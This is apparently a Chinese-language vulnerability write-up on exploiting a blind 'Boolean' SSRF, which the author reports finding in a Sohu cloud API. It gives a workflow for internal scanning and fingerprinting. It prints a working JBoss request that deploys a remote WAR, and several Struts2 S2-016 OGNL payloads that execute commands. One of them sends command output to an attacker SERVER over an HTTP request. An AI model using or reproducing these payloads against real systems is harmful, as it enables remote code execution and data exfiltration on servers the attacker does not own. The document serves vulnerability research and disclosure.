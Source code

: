 ### Bool型SSRF的思考与实践

	0x00 Bool型SSRF 
	0x01 SSRF利用的基本思路
	0x02 两者之间的区别
	0x03 Bool型SSRF利用方法
	0x04 Struts2在Bool型SSRF中的利用
	0x05 Other(想到什么写什么)

#### 0x00 Bool型SSRF
什么是Bool型SSRF, 没听说过. 其实我也没有听说过. 只是我也不知道该怎么描述就起了这样一个名称.

Bool型SSRF: 简单来说就是仅返回True 或 False的SSRF. 就以我前两天我挖掘的一个搜狐SSRF为例, 只有服务器端正确响应HTTP请求并且只有响应码为200的时候, 返回Success，其余全部返回Failed. 这就是一个典型的Bool型SSRF.

#### 0x01 SSRF利用的基本思路
Wooyun上有很多SSRF典型的案例, 可以说让人拍案惊奇. 但是没有一个关于BOOL型SSRF的利用案例(可能我没看到吧). 这次挖掘到一个搜狐的Bool型SSRF, 对于我这个只是简单理解SSRF原理没有任何实战的渣渣来说, 难度还真大. 不过想想, 以前没有接触过SSRF, 这次就把你玩透. 翻阅学习Wooyun上的案例, 了解SSRF利用的基本思路:

	内网探测 -> 应用识别 -> 攻击Payload -> Payload Result

1. 内网探测: 内网主机信息收集
2. 应用识别: 主机应用识别(可以通过Barner和应用指纹进行识别)
3. 攻击Payload: 根据应用识别的应用,加载不同的攻击Payload(最常用莫属于Struts2)
4. Payload Result: 返回相应Payload的执行信息

#### 0x02 两者之间的区别
BOOL型SSRF与一般的SSRF的区别在步骤二应用识别, 步骤三攻击Payload和步骤四Payload Result. 一般的SSRF在应用识别阶段返回的信息相对较多, 比如Banner信息, HTTP Title信息,更有甚的会将整个HTTP的Reponse完全返回, 而Bool型SSRF的却永远只有True or False. 因为没有任何Response信息, 所以对于攻击Payload的选择也是有很多限制的, 不能选择需要和Response信息交互的Payload. 在此次搜狐SSRF的中, 我分别使用了JBOSS远程调用和Struts2 S2-016远程命令执行. 对于Bool型SSRF, 我们不能说Payload打过去就一定成功执行, 就算是返回True, 也不能保证Payload一定执行成功. 所以我们要验证Payload的执行状态信息.

#### 0x03 Bool型SSRF利用方法
**应用识别**

	{ 指纹1 + 指纹2 + 黑指纹 }

以JBOSS为例: { /jmx-console/ + /invoker/JMXInvokerServlet + /d2z341.d#211 }

指纹1 和 指纹2 为应用识别指纹, 准确率越高越好. 黑指纹其实就是不会匹配任何应用的指纹，一般用较长的字符串代替即可. 分别用指纹1, 指纹2 和 黑指纹对内网主机探测统计, 获取三个主机列表: jmx-console.host(A)    invoker.host(B)    black.host(C). 

Host = (A∩B) –(A∩B∩C) 即剔除jmx-console.host 和 invoker.host中存在于black.host的主机, 然后对jmx-console和invoker.host的主机取交集.

**攻击Payload**

针对不用的应用我们需要加载不同的Payload, 但是大多数的攻击都是需要和Payload Result进行交互的. 这类Payload是没有办法用在此处的, 我们需要的是不需要和Payload Result进行交互的Payload. 我可以想到的两种应用比较广泛的Payload有JBOSS和Struts2漏洞.

JBoss Payload:

`/jmx-console/HtmlAdaptor?action=invokeOp&name=jboss.system%3Aservice%3DMainDeployer&methodIndex=3&arg0=http%3A%2F%2F192.168.1.2%2Fzecmd.war`

通过JBOSS HtmlAdaptor接口直接部署远程war包, 我们可以通过access.log去验证war包是否成功部署.下面就是通过SSRF去执行不同的命令.还有一种方式,就是我们可以通过我们服务器的access.log日志获取到远程服务器对应的公网IP, 有时也会有一些意外惊喜.

Struts2 Payload:

`/action?action:%25{%23a%3d(new%20java.lang.ProcessBuilder(new%20java.lang.String[]{'command'})).start()}`

Struts2漏洞的影响大家都懂的, 通过URL直接远程命令执行, 想打那里就打那里.

**Payload Result**

获取Payload Result是十分有必要的, 这里的Payload Result和非Bool型SSRF的Result不是一个意思. 对于Bool型SSRF, 服务器端返回的数据永远只有True和False, 我们是可以通过返回的True或者False来判断Payload的执行状态, 但是这样的判断标准是无法让人信服的. 能否有一种方法能够精确的判断Payload的执行状态,而且能够返回Payload Result. 对于Struts2我找到了一种可利用的方法.

#### 0x04 Struts2在Bool型SSRF中的利用
下面是S2-016的POC:

`/action.action:%25{3*4}`

`/action.action?redirect:%25{3*4}`

通过对连个POC的理解, 我们知道下面的POC中的redirect是实现URL跳转, 通过URL跳转来验证S2-016漏洞.
![Struts2-redirect](./Res/Struts2-redirect.png)

当然也可以通过 "?redirect:http://www.baidu.com" 来验证. 那么我们是否可以通过 "?redirect:http://SERVER/%25{3*4}" 将%25{3*4}的执行结果作为SERVER的URL的一部分发送到远端服务器, 通过实验我们证实了这样的想法.
![Struts2-redirect-to-remote](./Res/Struts2-redirect-to-remote.png)

下面我们尝试S2-016的命令执行POC,执行结果如下:

`?redirect:%25{%23a%3d(new%20java.lang.ProcessBuilder(new%20java.lang.String[]{'command'})).start()}`

![Struts2-exec](./Res/Struts2-exec.png)

特此说明一下, 这里返回java.lang.ProcessImpl@xxxxxx表示命令执行成功, 将命令执行的结果通过redirect跳转输出到远程服务器.

`?redirect:http//SERVER/%25{%23a%3d(new%20java.lang.ProcessBuilder(new%20java.lang.String[]{'whoami'})).start()}`

![Struts2-remote-exec](./Res/Struts2-remote-exec.png)

由服务器端Access日志可以看出, 命令执行成功

![Struts2-access-log](./Res/Struts2-access-log.png)

其实通过上面的这种方式,我们已经完全能够准确的判断Payload Result的执行状态, 但是这不是我要的, 我想要Payload Result执行结果. 

带回显的POC:

`?redirect:${%23a%3d(new%20java.lang.ProcessBuilder(new%20java.lang.String[]{'whoami'})).start(),%23b%3d%23a.getInputStream(),%23c%3dnew%20java.io.InputStreamReader(%23b),%23d%3dnew%20java.io.BufferedReader(%23c),%23e%3dnew%20char[50000],%23d.read(%23e),%23matt%3d%23context.get('com.opensymphony.xwork2.dispatcher.HttpServletResponse'),%23matt.getWriter().println(%23e),%23matt.getWriter().flush(),%23matt.getWriter().close()}`

![Struts2-ssrf](./Res/Struts2-ssrf.png)

将命令执行结果Redirect到远程:

![Struts2-ssrf2](./Res/Struts2-ssrf2.png)

我们可以看到本地浏览器可以打印出结果,但是远程Access.log不会有任何日志. 对Java懂一点点的人都知道(比如我,对Java略懂一点点), 这里的POC的作用就是本地打印,所以肯定是不行的. 下一步我们就需要更改POC , 因为对Java不熟, 为此花费了大半天的时间,写下下面的POC:

`?redirect:${%23a%3d(new%20java.lang.ProcessBuilder(new%20java.lang.String[]{'command'})).start(),%23b%3d%23a.getInputStream(),%23c%3dnew%20java.io.InputStreamReader(%23b),%23d%3dnew%20java.io.BufferedReader(%23c),%23t%3d%23d.readLine(),%23u%3d"http://SERVER/result%3d".concat(%23t),%23http%3dnew%20java.net.URL(%23u).openConnection(),%23http.setRequestMethod("GET"),%23http.connect(),%23http.getInputStream()}`

SERVER是我们的HTTP服务器IP地址, 我们获取命令执行结果,然后把他作为一个URL参数发送到远程SERVER上, 所以我们可以在远程SERVER的access.log看到命令的执行结果.

![Struts2-ssrf3](./Res/Struts2-ssrf3.png)

远程服务器日志:

![Struts2-ssrf4](./Res/Struts2-ssrf4.png)

至此, 我们完成了从一个BOOL型的SSRF转换为一个普通的SSRF,我们可以获取到任何Payload的执行结果, 我只能说这是一个质的飞跃.

说明: 对于文中浏览器中执行的返回信息,我们仅仅是在做测试,对于BOOL型SSRF这些信息对我们是不可见的, 我们能看到的仅仅是Server端的access.log日志.

#### 0x05 Other(想到什么写什么)
Bool型SSRF的其他利用方式-反射性XSS也是一种可利用的思路,不过挖掘的难度相对较大

此文是对搜狐SSRF漏洞利用过程中的一些思考,实践和总结.

这可以说是我的SSRF处女洞, 和此文章关联的漏洞”搜狐某云服务API接口导致SSRF/手工盲打到Struts2命令执行” http://wooyun.org/bugs/wooyun-2015-0129588 , 因为抱着学习的态度, 漏洞报告写的非常详细,而且有很多技巧在文章中没有提及. 当然也有很多YY的想法, 想拍砖的就来拍砖吧.


